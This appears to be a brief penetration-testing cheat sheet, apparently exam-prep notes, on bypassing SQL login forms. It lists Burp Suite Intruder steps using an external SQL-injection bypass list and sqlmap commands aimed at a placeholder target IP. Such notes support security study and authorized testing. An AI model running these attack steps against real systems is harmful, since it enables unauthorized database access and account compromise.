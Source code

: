 - ### Sql-login-bypass

  - Open Burp-suite
  - Make and intercept request
  - Send to intruder
  - Cluster attack
  - Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
  - Attack
  - Check for response length variation

NOT FOR EXAM    NOT FOR EXAM    NOT FOR EXAM

- Post

	./sqlmap.py -r search-test.txt -p tfUPass

- Get
	
	sqlmap -u "http://$TARGET_IP/index.php?id=1" --dbms=mysql

- Crawl

	sqlmap -u http://$TARGET_IP --dbms=mysql --crawl=3

NOT FOR EXAM    NOT FOR EXAM    NOT FOR EXAM